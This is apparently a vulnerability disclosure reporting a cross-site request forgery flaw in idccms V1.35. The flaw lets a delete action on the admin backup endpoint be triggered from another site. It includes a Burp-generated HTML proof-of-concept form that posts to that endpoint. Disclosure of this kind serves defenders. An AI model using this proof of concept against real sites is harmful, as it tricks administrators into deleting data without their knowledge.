 
target:http://idccms.com/
version: V1.35

idccms V1.35 was discovered to contain a Cross-Site Request Forgery (CSRF) via the component  http://127.0.0.1:80/admin/softBak_deal.php?mudi=del&dataID=2

POC:
```
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="http://127.0.0.1:80/admin/softBak_deal.php?mudi=del&dataID=2" method="POST">
      
      <input type="submit" value="Submit request" />
    </form>
  </body>
</html>
```
